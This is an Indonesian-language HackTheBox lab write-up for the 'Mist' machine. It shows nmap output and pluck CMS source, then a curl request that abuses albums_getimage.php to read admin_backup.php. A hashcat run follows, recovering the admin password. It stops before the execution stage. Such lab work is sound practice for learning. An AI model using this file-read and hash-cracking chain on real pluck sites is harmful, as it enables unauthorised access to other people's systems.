 ```yaml
---
title: HackTheBox - Mist - Continued
date: 2024-10-29 07:33:00 +0700
categories:
  - HackTheBox
  - Machines
tags:
  - easy
  - hackthebox
  - web
  - cms
  - pluck
  - hashcat
  - windows
description: Write-up Mist dari HackTheBox
---
```

## Reconnaissance
### Nmap
```zsh
❯ nmap -p- --min-rate 10000 10.10.11.17 -oN full-nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-29 07:27 UTC
Nmap scan report for jsn.jaringanku (10.10.11.17)
Host is up (0.26s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 58.13 seconds
```
```zsh
❯ sudo nmap -p 80 -sCVS 10.10.11.17 -oN nmap.txt
[sudo] password for kizuko: 
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-29 07:36 UTC
Nmap scan report for 10.10.11.17
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-title: Mist - Mist
|_Requested resource was http://10.10.11.17/?file=mist
|_http-generator: pluck 4.7.18
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.48 seconds
```

### HTTP
![Desktop View](/assets/img/hackthebox/machines/insane/mist/image1.png)
Disana terdapat sebuah quote dan link yang menuju ke halaman `/login.php`, tidak ada password default yang bisa digunakan untuk masuk ke pluck.
Dari `/robots.txt`, terdapat 2 direktori yang mungkin bisa di akses. Saat masuk ke direktori `/data` kita akan diarahkan ke halaman default/home, dan dari `/docs` kita tidak diarahkan ke halaman default yang artinya direktori ini bisa dibaca.
## Initial Access
diketahui tadi pluck tersebut versi 4.7.18 yang cukup kuno (kurang lebih satu tahun lalu). Lakukan pencarian di google, dan kebanyakan dari hasil tersebut menyebutkan [remote code execution (rce)](https://www.exploit-db.com/exploits/51592) yang mana kita bisa mengupload sebuah plugin yang berbahaya. Dan pencarian lainnya versi 4.7 menyebutkan [directory traversal](https://www.exploit-db.com/exploits/36986) yang mana kita bisa mengambil sebuah file dari server tersebut dengan file `albums_getimage.php`.
Sejak pluck cms tersedia di github, kita bisa melihat [source codenya](https://github.com/pluck-cms/pluck.git) secara langsung dan kita bisa mengecek mana yang membatasi eksploitasinya. Di commit yang terbaru terdapat beberapa pemeriksaan karakter khusus, jika filter tersebut dilewati/tidak dijalankan, kita bisa mengambil file yang ada di `../../settings/modules/albums/`.
```php
<?php
/*
 * This file is part of pluck, the easy content management system
 * Copyright (c) pluck team
 * http://www.pluck-cms.org

 * Pluck is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.

 * See docs/COPYING for the complete license.
*/
//Run security
foreach ($_GET as $get_value) {
	if (is_array($get_value) || preg_match('/\.\.|[\\\\:<>&="?*]/', $get_value))
		die ('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
}
unset($get_value);

//Define variable
$image = $_GET['image'];

//Then, check for hacking attempts (Remote Code Execution), and block them.
if (strpos($image, 'thumb') === false) {
	if (preg_match('#([.*])([/])([A-Za-z0-9.]{0,11})#', $image, $matches)) {
		if ($image != $matches[0]) {
			unset($image);
			die('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
		}
	}
}

elseif (strpos($image, 'thumb') !== false) {
	if (preg_match('#([.*])([/])thumb([/])([A-Za-z0-9.]{0,11})#', $image, $matches)) {
		if ($image != $matches[0]) {
			unset($image);
			die('A hacking attempt has been detected. For security reasons, we\'re blocking any code execution.');
		}
	}
}

//...if no hacking attempts found:
//Check if file exists.
if (file_exists('../../settings/modules/albums/'.$image)) {
	//Generate the image, make sure it doesn't end up in the visitors buffer.
	header('Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0');
	header('Expires: Thu, 19 Nov 1981 08:52:00 GMT');
	header('Pragma: no-cache');
	header('Content-Type: image/jpeg');
	echo readfile('../../settings/modules/albums/'.$image);
}

//If image doesn't exist, send 404 header.
else
	header('HTTP/1.0 404 Not Found');
?>
```
Poc `albums_getimage.php` tadi terletak di `/data/modules/albums` yang mana poc tersebut memuat/load file dari `/data/settings/modules/albums` di web server. Dan dari direktori yang diload tadi terdapat file yang menarik, yaitu `admin_backup.php`.
![Desktop View](/assets/img/hackthebox/machines/insane/mist/image2.png)
Karena file php tidak bisa dibaca secara langsung, oleh karena itu, disini kita coba memakai poc yang tadi agar bisa baca `admin_backup.php`
```zsh
❯ curl "http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php"
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146%      
```
Disini kita tidak tahu itu enkripsi algoritma apa, jadi disini kita pakai `hash-identifier` untuk mengeceknya
```zsh
❯ hash-identifier
/usr/bin/hash-identifier:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------
 HASH: 			 

```
Hasilnya sama seperti yang ada di [source code](https://github.com/pluck-cms/pluck/blob/598d9b8852792017e9e28d6e85015a1f6e5de621/login.php#L56) di github, yaitu menggunakan sha512. Karena algoritma enkripsinya sudah ketemu, kita bisa decode pakai john ataupun hashcat.
```zsh
❯ hashcat -m 1700 pw_pluck /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e:lexypoo97
```
Setelah mendapatkan password nya. coba pakai di halaman login pluck tadi dan berhasil masuk ke dashboard.
![](/assets/img/hackthebox/machines/insane/mist/image3.png)

## Execution

> To Be Continued?? I don't know about that
{: .prompt-info }